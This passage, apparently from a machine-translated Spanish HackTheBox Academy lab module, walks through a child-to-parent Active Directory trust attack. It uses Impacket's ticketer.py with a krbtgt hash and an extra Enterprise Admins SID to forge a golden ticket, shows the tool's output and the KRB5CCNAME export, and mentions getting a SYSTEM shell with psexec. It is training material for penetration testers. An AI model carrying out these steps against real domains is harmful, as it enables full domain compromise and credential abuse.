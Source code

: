 Hemos reunido los siguientes puntos de datos para construir el comando para nuestro ataque. Una vez más, usaremos el usuario inexistente`hacker`Para forjar nuestro boleto de oro.

- El hash Krbtgt para el dominio infantil:`9d765b482771505cbe97411065964d5f`
- El sid para el dominio infantil:`S-1-5-21-2806153819-209893948-922872689`
- El nombre de un usuario objetivo en el dominio infantil (¡no necesita existir!):`hacker`
- El FQDN del dominio infantil:`LOGISTICS.INLANEFREIGHT.LOCAL`
- El SID del grupo de administradores empresariales del dominio raíz:`S-1-5-21-3842939050-3880317879-2865463114-519`

A continuación, podemos usar[Ticketer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py)Desde el kit de herramientas Impacket para construir un boleto de oro. Este boleto será válido para acceder a recursos en el dominio infantil (especificado por`-domain-sid`) y el dominio principal (especificado por`-extra-sid`).

#### Construyendo un boleto de oro usando Ticketer.py

  Atacando los fideicomisos de dominio - Niño -> Fideicomisos de padres - de Linux

```shell-session
xnoxos@htb[/htb]$ ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for LOGISTICS.INLANEFREIGHT.LOCAL/hacker
[*] 	PAC_LOGON_INFO
[*] 	PAC_CLIENT_INFO_TYPE
[*] 	EncTicketPart
[*] 	EncAsRepPart
[*] Signing/Encrypting final ticket
[*] 	PAC_SERVER_CHECKSUM
[*] 	PAC_PRIVSVR_CHECKSUM
[*] 	EncTicketPart
[*] 	EncASRepPart
[*] Saving ticket in hacker.ccache
```

El boleto se ahorrará a nuestro sistema como un[Cache de credencial (ccache)](https://web.mit.edu/kerberos/krb5-1.12/doc/basic/ccache_def.html)Archivo, que es un archivo utilizado para contener las credenciales de Kerberos. Establecer el`KRB5CCNAME`El entorno variable le dice al sistema que use este archivo para los intentos de autenticación de Kerberos.

#### Configuración de la variable de entorno KRB5CCName

  Atacando los fideicomisos de dominio - Niño -> Fideicomisos de padres - de Linux

```shell-session
xnoxos@htb[/htb]$ export KRB5CCNAME=hacker.ccache 
```

Podemos verificar si podemos autenticar con éxito el controlador de dominio del dominio principal utilizando[Versión de PSEXEC de Impacket](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py). Si tiene éxito, nos dejarán caer en un shell del sistema en el controlador de dominio de destino.
